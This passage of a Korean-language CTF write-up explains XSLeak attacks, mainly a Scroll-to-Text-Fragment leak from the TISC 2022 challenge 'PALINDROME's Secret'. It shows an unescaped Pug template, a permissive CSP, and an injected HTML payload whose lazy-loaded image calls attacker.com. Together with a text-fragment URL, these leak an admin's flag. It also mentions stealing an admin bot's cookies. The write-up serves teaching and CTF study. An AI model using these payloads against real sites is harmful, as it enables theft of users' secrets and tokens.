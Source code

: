 ```jsx
document.body.appendChild(portal);
```

풀이자는 위와 같은 악성 스크립트가 주입된 URL을 봇이 방문하도록 유도하고 Frame Counting XSLeak 취약점을 이용해 관리자의 쿠키를 탈취할 수 있다. 이는 간단한 상황적 예시였지만 실제 출제자는 해당 챌린지에서 악성 스크립트가 주입되는 과정을 더욱 복잡하게 설계하여 챌린지 난이도를 상승시킬 수 있다.

**STTF를 이용한 XSLeak**

STTF의 경우 직접적으로 페이지 내에 텍스트를 검색하는 기능을 제공하므로 더 많은 정보 유출을 시도할 수 있고 출제자의 경우에도 챌린지 출제에 굉장히 유용한 소스 중 하나로 사용할 수 있다. STTF를 이용한 XSLeak 챌린지는 실제 `The InfoSecurity Challenge 2022 CTF`에서 `Level 5B - PALINDROME's Secret` 라는 이름으로 출제된 실제 챌린지를 기반으로 설명한다.

해당 챌린지는 HRS(HTTP Request Smuggling) 취약점과 STTF를 이용한 XSLeak을 수행하여 FLAG를 탈취하는 것이 핵심 목표인 챌린지로 다양한 취약점이 연계되어있지만 그 중 STTF를 이용하여 XSLeak을 수행하는 파트를 집중적으로 분석한다.

```jsx
.alert.alert-success(role='alert')
| This token belongs to !{username}.
| If !{username} asks for your token, you can give them this token: #{token}.
```

본 섹션에서 핵심적으로 취약점이 발생하는 부분은 `username` 파트에서 존재한다. Pug 템플릿에서 `!{username}` 구문은 unescaped 출력을 의미하므로 직접적으로 해당 필드에 HTML Injection을 수행할 수 있다. 또한 풀이자는 CSP 정책이 설정되어있는 부분 중 `img-src` 에 대해 모든 URL을 허용하므로 외부 이미지 로딩이 가능하다는 사실을 알 수 있다.

```
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none';
```

풀이자는 이 2가지와 STTF 기능을 이용하여 직접적인 FLAG 값을 유출하는 공격 구문을 만들어낼 수 있었다. 풀이자는 STTF 기능을 사용할 때 페이지에 실제로 텍스트 매칭 작업이 발생하였는지 여부를 Lazy Loading으로 감지하는 악의적 HTML 구문을 주입하였다.

```html
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<img loading="lazy" src="https://attacker.com/callback" />
```

이는 Bootstrap의 `min-vh-100` 클래스를 활용해서 각 `div` 가 viewport 높이를 차지하도록 구성한다. 이로 인해 Lazy Loaded 이미지는 초기 페이지 렌더링 시 viewport 밖에 위치하게 된다.

HTML Injection을 성공적으로 주입하고 설정을 마친 이후에 풀이자는 STTF 기능을 사용하여 특정 텍스트를 검색하는 요청을 보낸다. 만약 페이지 내에 텍스트가 존재할 경우 브라우저는 해당 텍스트로 자동 스크롤을 수행한다.

```html
/verify?token=ADMIN_TOKEN#:~:text=TISC{partial_flag
```

만약 텍스트로 스크롤이 발생할 경우 이전에 viewport 밖에 있던 Lazy Loaded 이미지가 viewport 내로 진입하게 되어 브라우저가 해당 이미지를 렌더링하려고 시도한다. 이때 풀이자의 서버로 HTTP 요청이 전송되므로 이를 이용해 스크롤 발생 여부를 감지할 수 있다. 이와 같이 스크롤 여부를 감지할 수 있는 이유는 실제 HTML Injection이 진행될 경우 아래와 같이 페이지가 렌더링 되어 `div` 가 viewport에 수직 공간을 모두 점유하기 때문이다.

```jsx
This token belongs to <div class="min-vh-100">...</div><img loading=lazy src="...">. If <div class="min-vh-100">...</div><img loading=lazy src="..."> asks for your token, you can give them this token: TISC{ADMIN_FLAG}.
```
